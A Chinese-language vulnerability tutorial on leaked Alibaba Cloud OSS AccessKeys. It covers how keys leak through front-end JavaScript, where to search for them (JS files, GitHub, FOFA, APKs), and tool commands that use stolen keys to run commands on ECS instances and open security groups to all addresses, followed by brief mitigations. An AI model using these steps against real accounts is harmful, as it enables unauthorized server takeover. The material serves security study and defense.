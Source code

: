 ## 一、漏洞原理

### 1、简介

```python
# 解释
OSS服务提供文件上传、下载和存储服务，也被一些网站开发者用来搭建网站的上传功能（避免攻击者通过文件上传功能上传恶意脚本文件到网站）。当开发者用Javascript实现OSS上传下载服务时，免不了要配置对应的Accesskey，JS又是前端能够直接访问看到的，就造成了Accesskey泄露。
```

```python
# 危害
1、通过AccessKey访问公司内部资源
2、接管OSS服务器
3、修改/重置ECS密码信息
```

### 2、详情

```python
# OSS介绍
OSS(Object Storage Service)对象存储服务，是一种海量、安全、低成本、高可靠的云存储服务，适合存放任意类型的文件。容量和处理能力弹性扩展，多种存储类型供选择，全面优化存储成本。
```

```python
# OSS关键词
Bucket（存储空间）：存放文件的地址空间、文件容器。
Object（对象/文件）：存放在存储空间的文件，内容就是一个对象。
Region（地域）：存储空间的物理地址区域。
Endpoint（访问路径）：文件地址，OSS对外服务的访问域名。
AccessKey（访问密钥）：验证身份的钥匙，上传下载的账号密码。
```



## 二、漏洞特征

### 1、场景

```
1、使用云服务器的中小型企业或个人
```

### 2、发现

```python
# JS文件
内容搜索：key、accesskey
BurpSuite抓包：key、accesskey
解密：console.log(atob("加密字符串"))
```

```python
# GITHUB
内容搜索：key、accesskey + [公司域名]
```

```PYTHON
# FOFA
内容搜索：key、accesskey + [公司域名]
```

```python
# 其他
APK反编译后的配置文件
低权限的WEBSHELL查看网站的配置文件
Swagger API泄露
Laravel框架信息泄露
ThinkPHP报错页面
```



## 三、利用条件

### 1、对方启用OSS服务



## 四、利用方法

### 1、API接口

```python
通过AccessKey ID和AccessKey Secret可调用API，完成对服务器ECS实例的管理和运维操作。
```

### 2、第三方管理工具

```python
# 登录即可直接g
OSSBrowser		 # OSS官方图形化管理工具
护卫神·云备份		# 一键备份数据到阿里云OSS
行云管家		 # 多云管理平台
```



## 五、相关工具

### 1、AliCloud-Tools

```python
# 介绍
辅助使用阿里云API操作ECS以及策略的工具，方便快速使用阿里云API执行操作
```

```python
# 下载
https://github.com/iiiusky/alicloud-tools
```

```python
# 参数
-a		--ak string 阿里云AccessKey
-r		--rid string 阿里云 地域ID
-s		--sk string 阿里云 SecretKey
ecs		ECS操作（查询/执行命令），当前命令支持地域ID设置
sg		安全组操作
```

```python
# 使用
1、查看所有地域信息
./AliCloud-Tools -a <AccessKey> -s <SecretKey> --regions
2、查看所有实例信息
./AliCloud-Tools -a <AccessKey> -s <SecretKey> ecs --list
3、查看所有正在运行的实例信息
./AliCloud-Tools -a <AccessKey> -s <SecretKey> ecs --list --runner
4、查看指定实例的信息
./AliCloud-Tools -a <AccessKey> -s <SecretKey> [-r <regionId>] ecs --eid <InstanceId>
5、执行命令
./AliCloud-Tools -a <AccessKey> -s <SecretKey> [-r <regionId>] ecs exec -I <InstanceId[,InstanceId,InstanceId,...]> -c "touch /tmp/123123aaaa.txt"
6、查看安全组策略
./AliCloud-Tools -a <AccessKey> -s <SecretKey> -r <regionId> sg --eid <SecruityGroupId>
7、增加安全组策略
./AliCloud-Tools -a <AccessKey> -s <SecretKey> -r <regionId> --eid <SecruityGroupId> --action add --protocol tcp --port 0/0 --ip 0.0.0.0/0
8、删除安全组策略
./AliCloud-Tools -a <AccessKey> -s <SecretKey> -r <regionId> --eid <SecruityGroupId> --action del --protocol tcp --port 0/0 --ip 0.0.0.0/0
```

### 2、行云管家

```python
# 介绍
多云管理平台，导入AccessKey，可重置服务器密码，接管服务器。
```

```python
# 下载
https://www.cloudbility.com/
```

### 3、OSSBrowser

```python
# 介绍
OSSBrowser是OSS官方提供的图形化管理工具，提供类似Windows资源管理的功能，用于浏览、上传、下载和管理文件。
```

```python
# 下载
http://gosspublic.alicdn.com/oss-browser/1.9.4/oss-browser-win32-x64.zip
```

4、护卫神·云备份

```python
# 介绍
一键备份数据到阿里云OSS，支持Bucket管理，支持鼠标拖放、剪贴板、断点续传、文件搜索等功能。
```

```python
# 下载
https://d.hws.com/free/HwsOSS.zip
```



## 六、防护措施

### 1、代码修复

```python
采用JavaScript客户端签名直传存在严重安全风险，建议采用服务端签名后直传。
```

### 2、信息保护

```
更换AccessKey
```

```
使用临时AccessKey
```


